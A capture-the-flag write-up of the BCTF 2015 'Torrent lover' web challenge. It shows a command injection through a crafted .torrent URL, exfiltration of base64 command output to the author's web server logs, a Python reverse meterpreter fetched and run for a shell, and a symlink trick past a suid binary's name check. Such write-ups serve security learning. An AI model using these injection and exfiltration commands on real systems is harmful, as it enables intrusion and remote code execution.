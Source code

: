 ### Solved by Swappage

Torrent lover was a 235 points worth challenge in BCTF 2015.

The obective was to pwn a web application and read the flag out of it.

Everything started with a form, which would allow you to specify an URL, from which the server
would download a .torrent file, process it, and print out basic torrent informations like files
content, tracker URL and the file name.

The page which was displaying the result was suffering from persistent XSS attack, but this was
simply a disguise to lure in the wrong direction, as the objective was to obtain code execution
on the server.

I quickly set up a web server and started to sniff some traffic, and this lured me, again,
in the wrong direction

In fact the HTTP request coming from the remote application looked like this:

    User-Agent: Wget/1.13.4 (linux-gnu)
    Accept: */*
    Host: 127.0.0.1:8443
    Connection: Keep-Alive

and considering the user agent, i wrongly focused my attention on the wget version, in an attempt
to exploit CVE-2014-4877, which affects all versions prior to 1.16: i thought that maybe by exploiting
this vulnerability i could write an arbitrary file in a known path and gain code execution from there.

I was wrong tho, and the story was completely different:
The application was vulnerable to a way simplier command injection attack, i discovered that
i could execute arbitrary code on the server by requesting an URL which looked like this

    http://my.webserver.host/$(command).torrent

The only restrictions i had for the command to be properly executed, were that

- the URL had to end with the *.torrent* string
- the whole URL couldn't contain spaces.

this was a pretty bad constraint, the enumeration was tedious and i really needed to figure out
where the torrents files downloaded by the web app were stored for processing.

The page displaying the result suggested me that the filese were indeed stored on disk before being
handled, because by requesting the same file twice, the second one would be displayed with a .1
appended to the name, which in general, happens when wgets finds a file on disk with the same name
in the same path.

to enumerate the paths i used simple command injections like

    http://my.webserver.host/$(pwd|base64)

and then read the output in my web server log which looked like this:

    218.2.197.253 - - [22/Mar/2015:14:52:57 +0100] "GET /1.php?i=L3Zhci93d3cvd29yawo=.torrent

and once i finally spotted that the absolute path where the downloaded files were stored was

    /var/www/work/zhongzi

i uploaded a .torrent file containing a python reverse meterpreter and popped a shell by sending

    http://my.webserver.host/$(python</var/www/work/zhongzi/swappage.torrent).torrent

After all, the only check that was performed was on the file extension, and nothing more.

Once i got the shell to read the flag we needed to run a suid binary that would output the flag
but it was performing a check on the argument that was passed which couldn't contain the word flag

    www-data@ubuntu-box:/var/www/flag$ ./use_me_to_read_flag flag
    ./use_me_to_read_flag flag
    You may not access 'flag'
    www-data@ubuntu-box:/var/www/flag$

the problem was quickly solved by symlinking the flag and then run the program against
the different file name, since the program wasn't resolving the original file name.

    www-data@ubuntu-box:/var/www/work/zhongzi$ ln -s /var/www/flag/flag merumerumeeee
    en -s /var/www/flag/flag merumerumeee
    www-data@ubuntu-box:/var/www/work/zhongzi$ /var/www/flag/use_me_to_read_flag merumerumeeee
    umerumeeeelag/use_me_to_read_flag mer
    BCTF{Do_not_play_dota2_or_you_will_be_stupid_like_me233}
    www-data@ubuntu-box:/var/www/work/zhongzi$ rm merumerumeeee
    rm merumerumeeee
    www-data@ubuntu-box:/var/www/work/zhongzi$ exit

the flag was

    BCTF{Do_not_play_dota2_or_you_will_be_stupid_like_me233}

